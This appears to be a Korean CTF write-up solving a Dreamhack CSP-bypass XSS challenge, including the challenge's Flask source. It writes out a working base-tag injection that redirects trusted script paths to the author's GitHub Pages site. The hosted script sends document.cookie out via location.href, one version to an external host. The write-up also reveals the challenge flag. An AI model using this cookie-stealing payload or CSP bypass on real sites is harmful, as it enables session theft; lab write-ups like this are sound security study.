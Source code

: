 ```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", param=param, nonce=nonce)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)

```
참도로 **엔드포인트 분석, 주요 함수 분석** 은 이전 문제인 CSP Bypass 와 동일함  

## 엔드포인트 분석  
1. '/'  
-> 메인페이지 html 파일 render
2. '/vuln'  
-> param에서 특정 값을 넣어서 나오는 결과값을 html 파일로 return 한다.  
3. '/flag'  
-> param에서 특정 값을 얻어서 **check_xss** 에 넣어서 **xss를 필터링** 한다. 또한 **nonce** 값도 확인한다.  
4. '/memo'  
-> memo에서 특정 값을 작성한다.  
## 주요 함수 분석  
1. check_xss  
-> 입력받은 param을 이용해 URL을 만들어서 접근함  
2. add_header  
-> **@app.after_request** 를 통해 매 http 요청이 끝나고 브라우저에 응답하기 전에 실행하는 함수이고, 응답 헤더에 **CSP에 대한 내용과 nonce** 를 추가한다.  
(https://blusky10.tistory.com/entry/FlaskHTTP-%EC%9A%94%EC%B2%AD%EC%97%90-%EB%8C%80%ED%95%9C-%ED%95%B8%EB%93%A4%EB%9F%AC)  

## 문제 모습  
이전 문제인 **CSP Bypass** 와 동일함  
<img src="1.jpg">  

## 문제 해결  
이전 문제처럼 **add_header** 를 보고 풀면된다.  
여기서 이전 문제에서 사용한 코드를 사용해보고자 했다.  
```html
<script src="/vuln?param=alert(1)"></script>
```
vuln 페이지에서 실행하면, 아무 일도 일어나지 않는다.  
그 이유는 이전 문제는 vuln에서 **param의 결과** 를 return 했다.  
그러나 이번 문제는 vuln에서 **html 문서** 를 return 하기 때문에 위의 코드가 실행되지 않는 것이다.  
(https://dreamhack.io/forum/qna/4700/)  
<img src="2.jpg">  

위의 에러처럼 return 한 html 파일의 맨 윗줄인
```html
<!DOCTYPE html>
```
를 자바스크립트로 해석하는 과정에서 에러가 발생한 것이다.  

그래서 다른 방식은 고안해야 한다.  
이 때, 이 문제의 중요한점은 바로 **base-uri** 에 대한 제한을 걸지 않았다는 것이다.  
따라서 **base** 태그를 이용해 공격할 수 있다.  
(https://www.tcpschool.com/html-tags/base)
**base** 태그는 현재 문서의 모든 상대 주소의 기본 주소를 지정함  
```html
<!-- 강의자료에 있는 코드 -->
<base href="https://malice.test">
<script src="/jquery.js" nonce=NONCE></script>
<!-- https://malice.test/jquery.js 로 해석한다. -->
```

이 문제를 풀기 위해 개인서버를 사용해야 한다고 한다.  
그래서 github를 이용했다.  
(https://codingslime.tistory.com/24)
(https://docs.github.com/ko/pages/quickstart)

```javascript
location.href = "http://host3.dreamhack.games:20696/memo?memo=" + document.cookie
```
개인 서버를 만들고 test.js 라는 파일로 다음과 같은 코드를 적었다.  

그리고 base 태그를 이용해 저 test.js를 실행하기 위해 다음과 같은 코드를 vuln에 넣었다.  
```html
<base href="https://SeoDongHyun03.github.io"><script src="/test.js"></script>
```
위의 코드를 적었는데 다음과 같은 오류메시지가 나왔다.  
<img src="3.jpg">  
결론적으로 test.js가 같은 출처에 없기도 하고 nonce 값도 없기 때문에 막은 것이다.  

여기서 nonce 값을 예측하는 것은 불가능하기 때문에 생각한 것은 vuln 페이지에서 사용하는 script는 2가지가 있었다.  

```html
<!-- Bootstrap core JavaScript -->
<script src="/static/js/jquery.min.js" nonce=9fd7da9a92141712455011c527a41dd3></script>
<script src="/static/js/bootstrap.min.js" nonce=9fd7da9a92141712455011c527a41dd3></script> 
```
위의 **jquery.min.js, bootstrap.min.js** 를 가져오는 것이었다.  

그렇다면, test.js 대신에 위의 파일명을 사용하면 될 것 같다고 생각했다.  
(저 상대경로에 있는 파일은 nonce가 이미 html 파일에 있기 때문에 바로 실행할 수 있다고 생각했다.)  

```html
<base href="https://SeoDongHyun03.github.io">
```
위와 같이 작성하면, **base** 를 이용해 개인 서버로 연결해서 위에서 적은 **jquery.min.js 를 실행** 한다.  

그래서 위의 코드를 flag에 넣었는데 계속 **wrong** 이 나왔다.  
그래서 찾아봤을 때 jquery.min.js 의 코드를 다음과 같이 고쳐야 한다고 한다.  
```javascript
location.href = "http://127.0.0.1:8000/memo?memo=" + document.cookie;
```
결론적으로 호스트 부분을 **127.0.0.1** 으로 바꾼 것이다.  

<img src="4.jpg">  

따라서 정답은 **DH{833a8a65e3907796ccc447ff75e1dfe6}** 이다.